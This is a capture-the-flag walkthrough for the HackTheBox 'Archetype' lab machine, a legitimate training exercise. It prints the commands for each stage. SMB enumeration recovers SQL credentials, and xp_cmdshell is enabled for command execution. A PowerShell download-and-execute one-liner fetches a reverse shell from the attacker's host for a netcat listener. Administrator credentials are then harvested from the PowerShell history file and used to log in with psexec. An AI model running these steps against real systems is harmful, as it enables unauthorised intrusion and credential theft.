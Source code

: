 # Archetype
This is the first box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Archetype](../Images/htb_archetype_1.png)

**Tools: nmap, smbclient, netcat, Impacket (mssqlclient.py and psexec.py).**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):  
`nmap -n -sC -sV -Pn -T4 10.10.10.27`

Or for a more complete scan:  
`nmap -n -sC -sV -p- -Pn 10.10.10.27`

![Archetype](../Images/htb_archetype_2.png)

The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:  
`smbclient -L \\10.10.10.27 -N`

![Archetype](../Images/htb_archetype_3.png)

There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:  
```
smbclient -N //10.10.10.27/backups  
dir  
get prod.dtsConfig  
```

![Archetype](../Images/htb_archetype_4.png)

Now we can read the file:  
`cat prod.dtsConfig`

![Archetype](../Images/htb_archetype_5.png)

This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:  
`sudo apt install python3-venv python3-pip`

Git clone impacket, better do it to at /opt to keep it organized:  
`sudo git clone https://github.com/SecureAuthCorp/impacket.git`

Go inside the impacket folder (cd impacket) and run:  
`pip3 install .`

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:  
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:  
`SELECT IS_SRVROLEMEMBER (‘sysadmin’)`

The answer should be 1 (= true), confirming that we have sysadmin privileges.

![Archetype](../Images/htb_archetype_6.png)

Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):  
```
EXEC sp_configure ‘Show Advanced Options’, 1;  
reconfigure;  
sp_configure;  
EXEC sp_configure ‘xp_cmdshell’, 1  
reconfigure;  
xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  
```

![Archetype](../Images/htb_archetype_7.png)

In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:

![Archetype](../Images/htb_archetype_code.png)

We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:  
`python -m SimpleHTTPServer 80`  
or  
`python3 -m http.server 80`  

Now we can start a netcat listening session on port 443:  
`nc -vnlp 443`

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:  
`ufw allow from 10.10.10.27 proto tcp to any port 80,443`

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):  
`xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”`

And back to our netcat…

![Archetype](../Images/htb_archetype_8.png)

We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:

![Archetype](../Images/htb_archetype_9.png)

In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):  
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![Archetype](../Images/htb_archetype_10.png)

And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):  
`python3 psexec.py administrator@10.10.10.27`

We simply provide the password when asked, and do a quick whoami check:

![Archetype](../Images/htb_archetype_11.png)

Now we just need to read the root.txt file at the administrator’s desktop:

![Archetype](../Images/htb_archetype_12.png)

![Archetype](../Images/htb_archetype_13.png)

**That’s all for now!**  
We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 8 labs of the ‘Starting Point’ path.  
Thanks for reading and keep hacking!  

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
